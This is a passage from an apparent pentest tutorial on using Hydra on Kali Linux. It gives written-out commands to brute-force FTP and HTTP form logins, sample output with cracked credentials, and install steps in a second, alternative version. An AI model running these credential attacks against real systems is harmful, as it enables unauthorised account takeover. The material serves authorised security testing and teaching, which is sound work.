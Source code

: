 ```bash
hydra -l admin -P /path/to/passwords.txt ftp://target_ip
```

**Expected Output:**

```
[21][ftp] host: target_ip   login: admin   password: admin123
```

#### 3. Brute-forcing HTTP Form Authentication

For web applications, you may need to specify the form parameters:

```bash
hydra -l username -P /path/to/passwords.txt http-post-form "http://target_ip/login:username=^USER^&password=^PASS^:F=incorrect"
```

- **`http-post-form`**: Specifies that it’s a POST request.
- **`F=incorrect`**: Indicates the failure message.

**Expected Output:**

```
[80][http-post-form] host: target_ip   login: username   password: password456
```

### Options

- **`-vV`**: Verbose mode to show more details during the attack.
- **`-t <number>`**: Specifies the number of concurrent connections (default is 16).
- **`-o <output_file>`**: Saves the found credentials to a file.

### Conclusion

Hydra is a versatile tool for brute-forcing passwords across various protocols. Always remember to use it ethically and within legal boundaries, ensuring you have permission to test the systems you are attacking.



                               ALTERNATIVE
## Using Hydra on Kali Linux

Hydra is a powerful password-cracking tool that supports various protocols to perform brute-force attacks. Here's how to use it effectively.

### Installation

Hydra is typically pre-installed on Kali Linux. To check if it's installed, run:

```bash
which hydra
```

If it’s not installed, you can install it using:

```bash
sudo apt install hydra
```

